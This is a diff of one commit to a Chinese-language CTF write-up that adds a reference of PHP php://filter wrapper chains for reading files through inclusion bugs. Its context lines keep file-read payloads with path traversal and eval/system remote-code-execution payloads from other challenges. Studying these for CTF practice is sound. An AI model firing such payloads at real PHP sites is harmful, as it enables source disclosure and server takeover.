

Before and after one commit to 181726943/writeup, a Markdown page: ctf-wp.md, 3 parts joined by grey strips. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
更新php文件包含伪协议利用姿势

````diff
--- a/ctf-wp.md
+++ b/ctf-wp.md
@@ -1081,7 +1081,9 @@ Twig
     func=\system&p=p=find / -name flag*
 ```
 
-## [BSidesCF 2020]Had a bad day
+## [BSidesCF 2020]Had a bad day(文件包含,php伪协议读取文件)
+
+### 题目解法
 
 点击页面中的按钮，GET传参，可能存在注入点，测试后发现不是SQL注入，根据报错信息得出和文件读取有关。更换参数网页提示只支持两个函数，读取index.php源码,
 
@@ -1108,32 +1110,64 @@ strpos — 查找字符串首次出现的位置
 
 payload: `php://filter/convert.base64-encode/resource=index/../flag` 或 `php://filter/convert.base64-encode/index/resource=flag`
 
-`convert.base64-encode`的替换
+### php://filter/
+
+#### String Filter (字符串过滤器)
 
 ```php
-    convert.iconv.<input-encoding>.<output-encoding>
-    or
-    convert.iconv.<input-encoding>/<output-encoding>
-
-    <input-encoding>和<output-encoding> 就是编码方式，有如下几种;
-
-    UCS-4*
-    UCS-4BE
-    UCS-4LE*
-    UCS-2
-    UCS-2BE
-    UCS-2LE
-    UTF-32*
-    UTF-32BE*
-    UTF-32LE*
-    UTF-16*
-    UTF-16BE*
-    UTF-16LE*
-    UTF-7
-    UTF7-IMAP
-    UTF-8*
-    ASCII*
-    BASE64
+string.rot13/resource=flag.php
+# string.rot13对字符串执行 ROT13 转换，ROT13 编码简单地使用字母表中后面第 13 个字母替换当前字母，同时忽略非字母表中的字符。
+string.toupper/resource=flag.php
+# string.toupper 将字符串转化为大写
+string.tolower/resource=flag.php
+# string.tolower 将字符串转化为小写
+string.strip_tags/resource=flag.php
+# string.strip_tags从字符串中去除 HTML 和 PHP 标记，尝试返回给定的字符串 str 去除空字符、HTML 和 PHP 标记后的结果
+```
+
+#### Conversion Filter(转化过滤器)
+
+```php
+convert.base64-encode & convert.base64-decode
+
+convert.iconv.<input-encoding>.<output-encoding>
+# or
+convert.iconv.<input-encoding>/<output-encoding>
+
+convert.quoted-printable-encode & convert.quoted-printable-decode
+
+# <input-encoding>和<output-encoding> 就是编码方式，有如下几种;
+```
+
+```php
+UCS-4*
+UCS-4BE
+UCS-4LE*
+UCS-2
+UCS-2BE
+UCS-2LE
+UTF-32*
+UTF-32BE*
+UTF-32LE*
+UTF-16*
+UTF-16BE*
+UTF-16LE*
+UTF-7
+UTF7-IMAP
+UTF-8*
+ASCII*
+BASE64
+```
+
+#### Compression Filters(压缩过滤器)
+
+```php
+# zlib.deflate（压缩）和 zlib.inflate（解压）
+zlib.deflate/resource=flag.php
+zlib.deflate|zlib.inflate/resource=flag.php
+
+# bzip2.compress和 bzip2.decompress
+# 同上
 ```
 
 ## BJDCTF2020 ZJCTF，不过如此(文件包含 + RCE-远程代码执行)
@@ -1203,7 +1237,7 @@ payload: `php://filter/convert.base64-encode/resource=index/../flag` 或 `php://
 
  payload: `\S*=${eval($_POST[cmd])}`同时再POST一个`cmd=system("ls /");` 或者 `\S*=${getFlag()}&cmd=system('ls /');`
 
-## BUUCTF2018 Onlion Tool
+## BUUCTF2018 Onlion Tool(RCE)
 
 源码
 
````
